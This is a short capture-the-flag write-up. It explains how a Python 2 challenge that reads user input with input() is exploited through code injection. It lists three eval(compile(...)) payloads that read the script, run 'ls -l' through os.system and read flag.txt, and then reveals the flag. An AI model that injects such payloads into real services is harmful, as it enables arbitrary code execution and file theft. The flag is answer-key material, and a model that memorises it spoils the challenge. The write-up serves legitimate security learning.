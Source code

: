 #### Challenge:

They told us the world was going to end in the year 2000! But it didn't... when <i>will</i> the world end? <br><br> <b>Open the <code>Deployment</code> tab to start this challenge.</b>

---

#### Solution:

The challenge keeps asking for a number, when given a string it throws an error. We expoit the fact that the `input()` function is wrapper for `eval(raw_input())`. More on this here: [https://www.matthewcantelon.ca/blog/sha2017-junior-ctf-small/](https://www.matthewcantelon.ca/blog/sha2017-junior-ctf-small/).

```bash
eval(compile('print open(__file__, "r").readlines()', '<string>', 'exec')) # check current file (nothing there sadly, but we learn this is python2 script)

eval(compile('import os; stream = os.system("ls -l"); print stream', '<string>', 'exec')) # check files in current folder (shows file flag.txt)

eval(compile('print open("flag.txt", "r").readlines()', '<string>', 'exec')) # print the flag

```

---

<details><summary>FLAG:</summary>

```
flag{we_are_saved_from_py2_k}
```

</details>
<br/>
